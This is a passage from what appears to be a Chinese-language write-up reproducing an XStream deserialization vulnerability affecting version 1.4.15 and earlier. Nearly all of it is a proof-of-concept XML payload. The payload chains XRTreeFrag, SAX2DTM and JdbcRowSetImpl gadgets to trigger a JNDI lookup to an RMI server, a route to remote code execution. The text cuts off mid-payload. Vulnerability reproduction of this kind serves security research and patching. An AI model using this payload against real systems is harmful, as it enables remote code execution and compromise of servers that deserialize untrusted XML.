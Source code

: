 **影响版本**：<=1.4.15  
**测试环境**：XStream1.4.15 jdk1.8\_66  
**漏洞复现**：  
POC

```plain
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://localhost:15000/CallRemoteMethod</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
```